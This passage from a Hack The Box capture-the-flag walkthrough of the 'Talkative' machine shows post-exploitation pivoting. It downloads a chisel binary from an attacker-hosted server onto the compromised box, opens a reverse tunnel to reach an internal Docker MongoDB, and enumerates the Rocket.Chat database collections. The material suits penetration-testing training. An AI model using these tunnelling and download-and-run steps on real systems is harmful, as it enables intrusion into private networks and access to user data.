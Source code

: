 In order to able to communicate with that Docker container's MongoDB, we need to do **port forwarding**.

**To do so, I'll use `chisel`.**

- **Transfer `chisel` binary:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:15:09(HKT)]
└> file /opt/chisel/chiselx64 
/opt/chisel/chiselx64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=7_8YJqkxi62boFphyAPw/1S9upq0nqO2kgbZ3a_Dl/RzpzDIMQlYKZaIYq6DLA/5qj-7SInLNYqAPFQWVUA, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:15:19(HKT)]
└> python3 -m http.server -d /opt/chisel 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
saul@talkative:~$ wget http://10.10.14.6/chiselx64 -O /tmp/chisel; chmod +x /tmp/chisel
[...]
```

- **Setup a reverse port forwarding server on the attacker machine:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:16:49(HKT)]
└> /opt/chisel/chiselx64 server -p 8888 --reverse
2023/08/12 17:16:49 server: Reverse tunnelling enabled
2023/08/12 17:16:49 server: Fingerprint UWqqTmmRIEeyggbLKF/kFIEGDNYiZ/XaOYjuT7Sbhik=
2023/08/12 17:16:49 server: Listening on http://0.0.0.0:8888
```

- **Client connects to the server, and forward `172.17.0.2`'s port `27017` to our attacker machine's port `27017`:**

```shell
saul@talkative:~$ /tmp/chisel client 10.10.14.6:8888 R:27017:172.17.0.2:27017
2023/08/12 09:18:14 client: Connecting to ws://10.10.14.6:8888
2023/08/12 09:18:14 client: Connected (Latency 37.946207ms)
```

Now we can use MongoDB's client `mongo` to communicate with the Docker container's MongoDB server!

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:23:33(HKT)]
└> mongo 127.0.0.1
[...]
rs0:PRIMARY> show dbs
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB
```

In here, we found a **non-default database: `meteor`**.

**Let's enumerate it's collections (tables)!**
```shell
rs0:PRIMARY> use meteor
switched to db meteor
rs0:PRIMARY> show collections
[...]
rocketchat_user_data_files
rocketchat_webdav_accounts
system.views
ufsTokens
users
usersSessions
view_livechat_queue_status
```
